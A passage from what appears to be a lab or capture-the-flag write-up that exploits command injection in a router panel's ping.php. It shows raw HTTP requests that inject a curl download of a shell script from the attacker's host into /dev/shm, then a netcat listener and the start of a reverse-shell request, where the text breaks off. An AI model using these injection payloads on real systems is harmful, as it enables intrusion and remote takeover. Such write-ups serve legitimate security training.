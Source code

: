 ip=127.0.0.1%0Acurl http://10.9.58.67:8000/aoba.sh --output /dev/shm/aoba.sh&submit=


```

Now, let's try to see if the file was actually uploaded.

```
POST /myrouterpanel/ping.php HTTP/1.1
Host: 10.10.56.176
Content-Length: 46
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.56.176
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.56.176/myrouterpanel/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

ip=127.0.0.1%0Als -la /dev/shm/aoba.sh&submit=

```

# output:

```
HTTP/1.1 200 OK
Date: Mon, 18 Sep 2023 15:21:13 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 500
Connection: close
Content-Type: text/html; charset=UTF-8

<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.018 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.035 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.034 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.033 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3077ms
rtt min/avg/max/mdev = 0.018/0.030/0.035/0.007 ms
-rw-r--r-- 1 www-data www-data 56 Sep 18 08:19 /dev/shm/aoba.sh
</pre>


```

Now, let's listen with netcat and execute our reverse shell.
# listen with netcat
```sudo nc -vnlp 4444```


# exec reverse shell

```
POST /myrouterpanel/ping.php HTTP/1.1
Host: 10.10.56.176
Content-Length: 46
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.56.176
Content-Type: application/x-www-form-urlencoded